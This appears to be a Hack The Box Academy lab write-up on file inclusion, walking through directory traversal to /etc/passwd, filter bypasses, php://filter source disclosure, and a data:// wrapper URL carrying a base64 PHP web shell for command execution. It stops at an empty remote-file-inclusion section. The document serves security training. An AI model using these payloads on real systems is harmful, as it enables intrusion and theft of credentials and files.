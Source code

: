 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:42908/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://94.237.59.180:42908/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>

![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
